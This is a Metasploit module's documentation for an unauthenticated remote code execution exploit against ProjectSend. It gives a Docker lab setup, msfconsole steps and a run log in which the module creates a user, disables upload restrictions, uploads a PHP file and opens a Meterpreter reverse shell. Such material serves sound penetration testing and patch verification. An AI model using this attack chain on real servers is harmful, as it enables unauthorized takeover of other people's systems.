 ## Vulnerable Application
ProjectSend is a web application used for sharing files with clients.

Due to POST parameters being executed before checking user permissions,
it is possible to perform a series of actions that can result in unauthenticated Remote Code Execution (RCE)
on vulnerable versions of ProjectSend.

This module has been tested against ProjectSend versions r1295 through r1605 on Linux.

The easiest way to obtain a vulnerable version of ProjectSend is by deploying it using Docker, as pre-made images exist for the software.
The following Docker Compose file can be used to set up a vulnerable environment.

```
---
    services:
      projectsend:
        image: lscr.io/linuxserver/projectsend:version-r1605
        container_name: projectsend
        environment:
          - PUID=1000
          - PGID=1000
          - TZ=Etc/UTC
          - MAX_UPLOAD=5000
        volumes:
          - ./projectsend/config:/config
          - ./projectsend/data:/data
        ports:
          - 80:80
        restart: unless-stopped
      db:
        image: mariadb
        restart: unless-stopped
        container_name: db
        volumes:
          - ./mariadb_data:/var/lib/mysql
        environment:
          MYSQL_ROOT_PASSWORD: password
          MYSQL_DATABASE: projectsend
          MYSQL_USER: projectsend
          MYSQL_PASSWORD: projectsend
```
After launching the containers, ProjectSend requires an initial configuration,
which can be completed by accessing it via port 80 on localhost.

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/projectsend_unauth_rce`
4. Set remote hosts: `set RHOSTS <ip>`
5. Set remote port: `set RPORT <port>`
6. Set the path to ProjectSend: `set TARGETURI <URI>`
7. Set local host: `set LHOST <local ip>`
8. Do: `run`
9. You should get a shell

```
msf6 exploit(linux/http/projectsend_unauth_rce) > options

Module options (exploit/linux/http/projectsend_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The TARGETURI for ProjectSend
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP Command
```

## Options
N/A - Only default options.

## Scenarios
```
msf6 exploit(linux/http/projectsend_unauth_rce) > run

[*] Started reverse TCP handler on 192.168.1.20:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Client registration successfully enabled
[+] User alvin.padberg created with password lrASo3iM
[*] Disabling upload restrictions...
[*] Logging in as alvin.padberg...
[+] Logged in as alvin.padberg
[+] Successfully uploaded PHP file: sX1A4FCH.php
[*] Sending stage (39927 bytes) to 192.168.1.20
[*] Meterpreter session 1 opened (192.168.1.20:4444 -> 192.168.1.20:56675) at 2024-09-23 19:01:29 +0200
[*] Logging in as alvin.padberg...
[+] Logged in as alvin.padberg
[+] Client registration successfully disabled
[*] Enabling upload restrictions...

meterpreter > sysinfo
Computer    : 1480205e55c2
OS          : Linux 1480205e55c2 6.6.26-linuxkit #1 SMP Sat Apr 27 04:13:19 UTC 2024 aarch64
Meterpreter : php/linux
```
